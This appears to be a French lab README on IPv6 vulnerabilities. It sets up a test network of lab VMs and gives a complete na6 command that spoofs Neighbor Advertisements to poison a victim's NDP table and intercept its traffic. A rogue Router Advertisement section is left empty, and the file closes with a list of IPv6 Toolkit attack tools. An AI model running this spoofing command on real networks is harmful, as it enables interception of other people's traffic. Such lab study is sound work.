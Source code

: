# Découverte de quelques vulnérablité d'IPv6

[[_TOC_]]

## Todos

* Corruption de la table NDP
    * Outil à utiliser (présenter l'outil à utiliser)
    * Check la doc et exécuter l'attaque depuis le pirate (ajouter notes)
    * Check le trafic réseau (faire un gif)
* Introduction de rogues RA sur un réseau IPv6
    * Outil à utiliser (présenter l'outil à utiliser)
    * Check la doc et exécuter l'attaque depuis le pirate (ajouter notes)
    * Check le résultat de l'attaque (faire un gif)


## Tableau d'addressage

| Name     | IP            | MAC               | Description |
|----------|:-------------:|:-----------------:|-------------|
| VM1      | 192.168.33.1  | 00:50:00:00:01:00 |Gateway      |
| VM2      | 192.168.33.10 | 00:50:00:00:04:00 |Victime      |
| Attacker | 192.168.33.11 | 00:50:00:00:05:00 |Attaquant    |

## Corruption de la table NDP

### Outil à utiliser
```
na6
```

### Commande
```
na6 -i ens3 -s 2001:db8:1:0:250:ff:fe00:100 -S 00:50:00:00:01:00 -d 2001:db8:1:0:250:ff:fe00:400 -t 2001:db8:1:0:250:ff:fe00:100 -E 00:50:00:00:05:00 -l
```

Arguments :
- **-s** : IPv6 Source Address
- **-S** : Link-layer Destination Address
- **-d** : IPv6 Destination Address
- **-t** : ND IPv6 Target Address
- **-E** : Source link-layer address option

### Résultats

![NDP Poisoning](./images/ndp_poisoning.gif)

On constate donc que :
- `vm2` ping `vm1` (sa Gateway)
- `attacker` lance la commande na6 malicieuse
- `attacker` récupère ainsi les pings émis par `vm2` (on peut le vérifier à l'aide de la commande *tcpdump*)

## Introduction de rogues RA sur un réseau IPv6

### Outil à utiliser

### Notes sur l'attaque

### Résultats


## Les Outils présents dans la suite IPv6ToolKit

```bash
addr6: An IPv6 address analysis and manipulation tool.  
blackhole6: A troubleshooting tool which can find IPv6 where in the network topology packets with specific IPv6 Extension Headers are being dropped.  
flow6: A tool to perform a security asseessment of the IPv6 Flow Label.  
frag6: A tool to perform IPv6 fragmentation-based attacks and to perform a security assessment of a number of fragmentation-related aspects.  
icmp6: A tool to perform attacks based on ICMPv6 error messages.  
jumbo6: A tool to assess potential flaws in the handling of IPv6 Jumbograms.  
na6: A tool to send arbitrary Neighbor Advertisement messages.  
ni6: A tool to send arbitrary ICMPv6 Node Information messages, and assess possible flaws in the processing of such packets.  
ns6: A tool to send arbitrary Neighbor Solicitation messages.  
path6: A versatile IPv6-based traceroute tool (which supports extension headers, IPv6 fragmentation, and other features not present in existing traceroute implementations).  
ra6: A tool to send arbitrary Router Advertisement messages.  
rd6: A tool to send arbitrary ICMPv6 Redirect messages.  
rs6: A tool to send arbitrary Router Solicitation messages.  
scan6: An IPv6 address scanning tool.  
script6: A set of scripts/commands that make rather complex and frequent tasks easy.  
tcp6: A tool to send arbitrary TCP segments and perform a variety of TCP-based attacks.  
udp6: A tool for sending arbitrary IPv6-based UDP datagrams.  
```
